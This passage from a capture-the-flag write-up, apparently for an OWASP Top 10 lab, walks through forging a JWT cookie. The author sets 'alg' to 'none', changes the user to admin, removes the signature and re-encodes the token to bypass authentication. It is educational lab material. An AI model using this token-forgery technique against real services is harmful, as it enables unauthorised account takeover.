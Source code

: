 ![Data Integrity Cookie](../../assets/images/thm/owasptop10_2021/32-data_integrity_cookie.png)

We can copy the JWT token and decode it to see the plaintext header and payload.

```text
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0IiwiZXhwIjoxNjg1MTI0NzQ5fQ.mrBUgRYiNh-uV8I_ZVY9CrNu4Q2HYoI_Kj0sKMqVlXM
```
```text
{"typ":"JWT","alg":"HS256"}{"username":"guest","exp":1685124749}	«Hb#a¹_eV=
³ná
b
K
2¥e\
```
Let's modify the token above by modifying the `alg` parameter to have the value `none` and removing the signature part of the token.

```text
{"typ":"JWT","alg":"none"}{"username":"admin","exp":1685124749}
```
We can now re-encode the token as base64. I had to encode the header and payload separately as doing it together did not produce the correct encoded value. Note that the header, payload, and signature fields need to be separated by a `.` in order for it to be interpreted as a valid JWT token.

```text
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0=.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNjg1MTI0NzQ5fQ==.
```
Updating the cookie value in our browser with our modified token and doing a hard refresh of the web application (CTRL + R), we are able to bypass authentication check for the *admin* user and retrieve the flag.
